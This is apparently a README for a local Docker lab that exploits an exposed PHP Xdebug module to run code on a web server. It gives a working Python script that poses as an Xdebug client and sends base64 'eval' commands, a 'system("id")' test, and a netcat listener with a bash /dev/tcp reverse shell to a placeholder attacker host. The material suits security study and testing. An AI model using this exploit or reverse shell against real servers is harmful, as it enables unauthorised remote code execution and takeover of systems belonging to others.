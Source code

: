 PHP-XDEBUG
==========

If the xdebug module is enabled it is possible to inject any php code into the running server.
When the parameter `XDEBUG_SESSION=session_name` is set xdebug tries to connect
to `xdebug.client_host` on port `xdebug.client_port`.
The default `client_host` is localhost and the default `client_port` is 9000 for xdebug v2 and
9003 for xdebug v3.

If `xdebug.discover_client_host` is set to true, Xdebug will first try to connect to the
client that made the HTTP request.
It checks the `$_SERVER['HTTP_X_FORWARDED_FOR']` and `$_SERVER['REMOTE_ADDR']` variables
to find out which hostname or IP address to use.
If `xdebug.client_discovery_header` is configured, then the `$_SERVER` variable with that
configured name will be checked before `HTTP_X_FORWARDED_FOR` and `REMOTE_ADDR`.

You can pick any value for `session_name`, unless `xdebug.trigger_value` is set,
in which case the value needs to match the value/one of the values from `xdebug.trigger_value`.

You can start a dummy "xdebug client" 

```python
import socket
import base64

sock = socket.socket()
sock.bind(('0.0.0.0', 9003))
sock.listen()
conn,_ = sock.accept()
init_data = conn.recv(1024)
print(init_data)

while  True:
    command = input('>> ')
    b64 = base64.b64encode(bytes(command, "utf-8"))
    conn.sendall(f"eval -i 0 -- {b64.decode('utf-8')}\x00".encode())

    data = conn.recv(1024)
    print(data)
```

or use one of the [Browser extensions](https://xdebug.org/docs/step_debug#browser-extensions)

and send the eval command to execute php code.

```php
system("id")
```

the command and response are base64 encoded.


## Example

Start webserver
```sh
docker-compose up
```
this will bind the apache to your local port 8080.


Start the listener:
```sh
python exploit.py
```

connect to the server with the xdebug parameter set:
```sh
curl localhost:8080?XDEBUG_SESSION=some_session_name
```

within the pseudo xdebug shell enter:
```php
system("id")
```
and you will get the output of the id command in base64 encoded.

Now you can spin off a reverse shell!

Start listener
```sh
nc -nvlp 4444
```

and start the reverse shell within the "xdebug client"
```php
system("bash -c 'bash -i >&/dev/tcp/<lhost>/4444 0>&1'")
```

